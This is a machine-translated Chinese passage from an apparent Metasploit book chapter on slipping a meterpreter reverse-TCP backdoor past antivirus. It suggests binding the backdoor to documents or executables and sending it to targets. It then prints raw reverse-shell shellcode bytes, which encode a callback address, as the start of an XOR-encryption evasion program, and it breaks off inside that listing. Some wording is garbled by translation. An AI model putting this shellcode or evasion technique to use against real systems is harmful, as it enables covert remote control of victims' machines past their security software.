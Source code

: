# 场景 2：你看不到我的仪表

在前面的章节中，我们了解了如何使用 Metasploit 控制各种系统。然而，我们没有考虑的一件重要事情是大多数操作系统上都存在防病毒解决方案。让我们创建一个类型为`windows/meterpreter/reverse_tcp`的后门可执行文件，如下所示：

![](../images/00082.jpeg)

我们现在可以将此可执行文件与任何漏洞攻击或 office 文档放在一起，也可以将其与任何其他可执行文件绑定，并将其发送到运行 windows 并在其系统上运行 AVG 防病毒解决方案的目标。让我们看看目标执行文件时会发生什么：

![](../images/00051.jpeg)

我们生成的文件引起了 AVG AntiVirus 的突然警报，并被检测到。让我们在 majyx 扫描仪上扫描我们的`generic.exe`文件，以获得检测率的概述，如下所示：

![](../images/00101.jpeg)

我们可以看到 44/70 AVs 检测到我们的文件是恶意的。这是相当令人沮丧的，因为作为一名执法人员，你可能只有一次机会在目标处执行文件。

可在[访问 majyx 扫描仪 http://scan.majyx.net/](http://scan.majyx.net/) 。
majyx 扫描仪有 35 个 AV，但有时它会扫描每个 AV 两次，因此有 70 个 AV 条目。将前面的扫描结果视为 22/35，而不是 44/70。

# 使用外壳代码以获得乐趣和利润

我们看到了各种 AV 解决方案的检测率如何影响我们的任务。我们可以使用`meterpreter`的外壳代码方法绕过 AVs。我们不生成可执行文件，而是生成 C 外壳代码，自己编写后门程序的其余部分。让我们按如下方式生成外壳代码：

![](../images/00086.jpeg)

让我们快速查看外壳代码，如下所示：

![](../images/00148.jpeg)

# 加密外壳代码

我们可以看到我们已经生成了外壳代码。我们将快速编写一个程序，使用`XOR`对现有外壳代码进行加密，如下所示：

```
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char shellcode[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\x2d\x4c\x21\x35\x68\x02"
"\x00\x05\x39\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x61\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9\x71\xff\xff"
```